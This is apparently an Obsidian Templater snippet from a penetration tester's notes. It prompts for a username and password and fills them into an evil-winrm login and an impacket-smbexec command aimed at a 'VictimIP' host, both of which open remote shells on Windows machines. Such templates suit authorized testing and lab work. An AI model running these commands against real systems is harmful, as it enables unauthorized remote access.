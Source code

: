 <%*
let Name = await tp.system.prompt("Enter the name")
let Pass = await tp.system.prompt("Enter the password")
-%>
- We connect with Evil-WinRM

```
evil-winrm -i <% tp.frontmatter["VictimIP"] %> -u <% Name %> -p "<% Pass %>"
```

- We tried impacket : 

```
impacket-smbexec <% tp.frontmatter["DOMAIN"] %>/<% Name %>:<% Pass %>@<% tp.frontmatter["VictimIP"] %>  
```
